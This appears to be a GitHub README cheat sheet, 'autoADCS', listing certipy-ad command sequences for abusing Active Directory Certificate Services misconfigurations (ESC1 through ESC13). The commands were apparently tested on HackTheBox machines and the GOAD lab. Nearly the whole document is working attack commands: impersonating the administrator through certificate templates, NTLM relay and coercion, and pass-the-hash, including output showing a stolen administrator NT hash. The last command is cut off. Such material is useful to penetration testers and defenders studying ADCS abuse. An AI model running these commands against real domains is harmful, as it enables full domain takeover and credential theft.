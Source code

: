 # autoADCS

### ESC1
Tested on https://app.hackthebox.com/machines/531
```
certipy-ad req -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -upn administrator@sequel.htb -ca sequel-dc-ca -template UserAuthentication
```
OR OR OR 
```
certipy-ad req -username ryan.cooper -password NuclearMosquito3 -ca sequel-DC-CA -target sequel.htb -template UserAuthentication -upn administrator@sequel.htb    
```
#### faketime
```
➜  escape ntpdate -q sequel.htb
2024-12-24 15:38:16.851156 (-0500) +28800.109132 +/- 0.083870 sequel.htb 10.10.11.202 s1 no-leap
```
```
➜  escape faketime '2024-12-24 15:38:34' certipy-ad auth -pfx administrator.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:a52f78e4c751e5f5e17e1e9f3e58f4ee
```
### ESC4
Tested on https://github.com/Orange-Cyberdefense/GOAD
```
certipy-ad template -username khal.drogo@essos.local -password horse -template ESC4 -save-old

certipy-ad req -username khal.drogo@essos.local -password horse -ca ESSOS-CA -target essos.local -template ESC4 -upn administrator@essos.local
```
### ESC6
Tested on https://github.com/Orange-Cyberdefense/GOAD
```
certipy-ad req -username administrator@essos.local -password horse -ca ESSOS-CA -target essos.local -template User -upn administrator@essos.local
```
### ESC7
Tested on https://app.hackthebox.com/machines/572
```
certipy-ad ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'pass'

certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'pass'

certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'pass'

certipy-ad ca -ca manager-DC01-CA -issue-request 21 -username raven@manager.htb -p 'pass'

certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 21 -username raven@manager.htb -p 'pass'
```
#### faketime
```
ntpdate -q 10.10.11.236

faketime '2024-12-19 08:12:01' certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.236
```
### ESC8
Tested on XXXXX-XXXXX
```
certipy-ad relay -target 'http://172.16.XX.XX/'

coercer coerce -u XX$@XXXXX.XX --hashes :3565f3f4123cfbd6fb880a0978fffc81 -l 10.XX.XX.XX -t 172.16.XX.XX --always-continue

certipy-ad auth -pfx XXXX.pfx
```
### ESC9
Tested on https://app.hackthebox.com/machines/Certified
```
certipy-ad account update -username management_svc@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn administrator


certipy-ad req -username ca_operator@certified.htb -hashes :b4b86f45c6018f1b664f70805f45d8f2 -ca certified-DC01-CA -template CertifiedAuthentication -debug

certipy-ad account update -username management_svc@certified.htb -hashes ':a091c1832bcdd4677c28b5a6a1295584' -user ca_operator -upn ca_operator@certified.htb
```
### ESC11
```
certipy-ad relay -target http://10.10.10.10 -ca SubCA
```
### ESC13
Tested on https://app.hackthebox.com/machines/595
```
certipy-ad req -u svc_cabackup -hashes :c9872f1bc10bdd522c12fc2ac9041b64 -ca mist-DC01-CA -template ManagerAuthentication -dc-ip 192.168.100.100 -dns 192.168.100.100 -key-size 4096

python3 gettgtpkinit.py -cert-pfx pfx_file /svc_cabackup ccache_file -dc-ip 192.168.100.100 -
```
